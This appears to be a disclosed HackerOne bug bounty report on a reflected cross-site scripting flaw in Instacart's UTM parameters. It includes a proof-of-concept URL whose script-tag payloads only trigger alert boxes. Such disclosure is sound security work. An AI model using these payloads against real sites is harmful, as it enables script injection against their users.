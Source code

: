 # Cross-Site Scripting Reflected On Main Domain

## Report Details
- **Report ID**: 104917
- **URL**: https://hackerone.com/reports/104917
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2015-12-13T07:36:00.000Z
- **Disclosed**: 2016-09-30T11:15:32.821Z

## Reporter
- **Username**: hussain_0x3c
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: instacart

## Vulnerability Information
**Hi** Security Team instacart

I'm Found Have Vulnerability Cross-Site Scripting Reflected on Main Domain in Variable **utm_source**

POC
---
https://www.instacart.com/green-zebra-grocery?utm_source=>"'><script>alert(/Hussain/)</script>&utm_medium=>"'><script>alert(/XSS/)</script>&utm_campaign=>"'><script>alert(/injection/)</script>

**Img** :- http://i.imgur.com/wSn4EU7.jpg

Test :- FF - IE 


**Regards**
@Hussain

## Attachments
No attachments
